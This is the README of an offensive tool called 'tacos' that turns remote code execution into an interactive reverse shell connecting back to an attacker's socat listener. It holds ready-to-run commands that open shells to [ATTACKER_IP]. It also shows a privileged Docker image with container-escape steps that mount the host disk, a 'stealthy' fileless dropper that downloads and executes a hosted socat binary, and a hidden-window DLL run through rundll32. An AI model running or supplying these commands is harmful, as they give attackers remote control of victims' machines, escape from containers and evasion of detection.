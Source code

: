# tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* transform RCE to interactive reverse shell with almost no prerequisite (only `curl`)
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lhost [ATTACKER_IP] --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]:[ATTACKER_PORT]       # or .\tacos.exe [ATTACKER_IP]:[ATTACKER_PORT] for windows
# 💥
```


### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about `tacos` container security:***
> From a networking point of view, this is the same level of isolation as if the processes were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

<details>
<summary><h4>🎁 Bonus: <code>tacos</code> reverse shell image</h4></summary>
Useful if target is running docker, kubernetes, etc ...
<br> On attacker machine, launch your <code>tacos</code> listener as usual
<br> On target:
<pre><code>
docker run --privileged --rm -it ariary/tacos-reverse [TACOS_LISTENER_IP]:[TACOS_LISTENER_PORT]
</code></pre>
<blockquote>💡: <code>--privileged</code> mode is not mandatory. It is used to allow container escaping with:
<pre><code>
fdisk -l
mkdir /mnt/hostfs
mount /dev/sda1 /mnt/hostfs
</code></pre>
</blockquote>
<br>
<blockquote>💡: If you only have writing access to a manifest deploying containers. Use <code>ariary/tacos-reverse</code> image with appropriate arguments
</blockquote>
</details>

## Install

### Docker
```shell
docker pull ariary/tacos
```

### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

## Alternatives

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
static-get socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```

### Use dll instead of `.exe`
```shell
# On attacker machine:
# modify ./cmd/tacosdll/tacosdll.go with the according IP:PORT
$ GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o tacos.dll ./cmd/tacosdll/tacosdll.go

# On remote:
> rundll32.exe ./tacos.dll,Tacos
```
